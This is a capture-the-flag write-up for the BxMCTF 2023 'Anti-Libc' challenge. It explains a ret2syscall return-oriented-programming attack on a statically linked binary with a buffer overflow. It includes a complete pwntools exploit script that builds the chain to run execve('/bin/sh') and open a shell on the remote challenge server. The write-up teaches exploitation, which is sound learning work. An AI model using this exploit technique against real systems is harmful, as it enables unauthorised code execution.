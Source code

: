 # BxMCTF 2023 - Anti-Libc Writeup

# Challenge Description

```  
Why use many functions when few do trick?  
Author: JW  
```  
[Challenge File](https://ctfmgci.jonathanw.dev/dl/bxmctf2023/pwn4.zip)

# TL;DR  
Was given a statically linked binary with no libc functions, so ret2libc was
not possible. All I/O operations were implemented using native syscalls, so
this binary was vulnerable to [ret2syscall](https://www.ctfnote.com/pwn/linux-
exploitation/rop/ret2syscall) attack. But it was not striaghtforward to do
that as binary had very minimal functions, hence a lack of ROP gadgets. Had to
devise clever ways of executing `execve("/bin/sh", 0, 0)` because that is the
ultimate goal of the ret2syscall attack.

Need to put address of `/bin/sh` in RDI, 0 in both RSI and RDX to get our
desired `execve()` execution. There's a buffer overflow in the given binary.
Using the overflow, wrote `/bin/sh` in the `.bss` segment which is also the
start of `input_buf` where all inputs are stored. There was no `pop rdx`
instruction directly but `pop rsi; pop rdi; jump ADDR` instruction was there
with a jump to a particular address which had multiple side effects after
jumping. It decremented RSI, incremented RDI, pop a value to RBP and RBX and
set RDX to DWORD PTR \[RDI\]. So, what I did is put `0x0` just before
`/bin/sh` so that when the execution goes after `pop rsi; pop rdi; jump ADDR`
then after popping values into RBP and RBX, the value `0x0` will be put in RDX
as RDI will point to it. Then as a side effect mentioned earlier, RDI will be
incremented to point to `/bin/sh` and voila! we have our right register states
to be ready to execute `syscall`.

One last thing was to put `0x3b` into RAX as RAX would hold the syscall number
for `execve()`. This is where I was stuck for a good time as I was relying on
tools like `ROPgadget`, `ropper` to figure out the ROP gadgets. But
unfortunately, not a single one of them gave me any instruction involving some
`mov` or `pop` or any other instruction so that I can fill RAX with my desired
value. Out of frustration, I started manually searching through the
disassembly in the hope of finding some instruction that would let me modify
RAX. And at one point, I found a `mov ebx, eax` (AT&T Syntax) instruction and
I already had a gadget `pop rbx`. This is one crucial lesson that I again got:
**Never rely on tools blindly**. So, finally I had all the pieces of the
puzzle to execute `syscall` and after that, I got the shell and the flag ?!

# Solve.py  
```python  
#!/usr/bin/env python3.8

from pwn import *

context.arch = "amd64"  
context.log_level = "info"

e = ELF("./main")

p = remote("198.199.90.158", "37699")

# p = process(e.path)  
gdbscript = """  
set follow-fork-mode child  
start  
b *0x40103f  
"""  
# p = gdb.debug(e.path, gdbscript=gdbscript)

offset = 64  # just before RBP  
input_buf = 0x402020  
EDX = b"\x00"  
BIN_SH = b"/bin/sh\x00"  
EVIL = EDX + BIN_SH  
DUMMY_RBP = p64(input_buf + 0x100)  
DUMMY_RBX = p64(1)  
SYSCALL = p64(0x401055)  
EVIL_ADDRESS = input_buf + 4 + len(DUMMY_RBP + DUMMY_RBX + SYSCALL)  
POP_RSI_RDI = p64(0x401135)  # pop rsi ; pop rdi ; jmp 0x401106  
POP_RBX = p64(0x40109C)  
MOV_EBX_EAX = p64(  
   0x40108D  
)  # mov %ebx,%eax ; neg %ebx; cmpb $0x1,(%rsp); cmove %ebx,%eax ; mov
%rbp,%rsp ; pop %rbp ; pop %rbx; ret  
RSI = p64(1)  
RDI = p64(EVIL_ADDRESS)  
RBX = p64(0x3B)  # it'll go into RAX which is needed for correct syscall  
RBP = p64(input_buf + 4)  # points to start of payload

# DUMMY RBP and RBX values to cater for the side effect after pop rsi ; pop
rdi ; jmp 0x401106  
payload = DUMMY_RBP + DUMMY_RBX + SYSCALL + EVIL  
padding = b"A" * (offset - len(DUMMY_RBP + DUMMY_RBX + SYSCALL + EVIL))  
payload += padding + RBP + POP_RSI_RDI + RSI + RDI  
payload += POP_RBX + RBX + MOV_EBX_EAX

print(p.recvuntil("input? "))  
p.sendline(str(len(payload)))  
p.sendline(payload)

p.interactive()  
```

# Flag  
`ctf{p3rf_4nd_s3c_m1sm4tch}`  

Original writeup (https://github.com/peace-ranger/CTF-
WriteUps/tree/main/2023/BxMCTF/(pwn)%20Anti-Libc).